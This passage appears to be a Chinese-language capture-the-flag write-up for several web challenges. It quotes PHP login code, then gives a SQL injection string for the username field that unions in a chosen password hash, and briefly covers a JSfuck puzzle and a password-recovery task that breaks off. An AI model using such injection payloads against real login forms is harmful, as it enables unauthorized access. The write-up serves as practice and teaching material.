 ```php+HTML
$row = mysql_fetch_array($query, MYSQL_ASSOC);
//echo $row["pw"];
  
  if (($row[pw]) && (!strcasecmp($pass, $row[pw]))) {
	echo "<p>Logged in! Key:************** </p>";
}
else {
    echo("<p>Log in failure!</p>");
	
  }
  
  
}

?>
<form method=post action=index.php>
<input type=text name=user value="Username">
<input type=password name=pass value="Password">
<input type=submit>
</form>
</body>
<a href="index.txt">
</html>
```



粗略看一遍，就觉得pwd返回值可控，那么问题就能解决了

```
user提交 isky' union select '9819264afc0a223d29938073d8c2c544' as pwd#
password提交 isky
```



得到flag

## what a fuck!这是什么鬼东西?

> what a fuck!这是什么鬼东西?

访问页面 应该是 [JSfuck](http://www.jsfuck.com/)
然后在console里执行下 一个弹出框显示密码 提交之

## 忘记密码了

> 找回密码
> 解题链接： <http://ctf5.shiyanbar.com/10/upload/>

这题主要是要注意源代码中

```html
<meta name="admin" content="admin@simplexue.com" />
<meta name="editor" content="Vim" />		
```
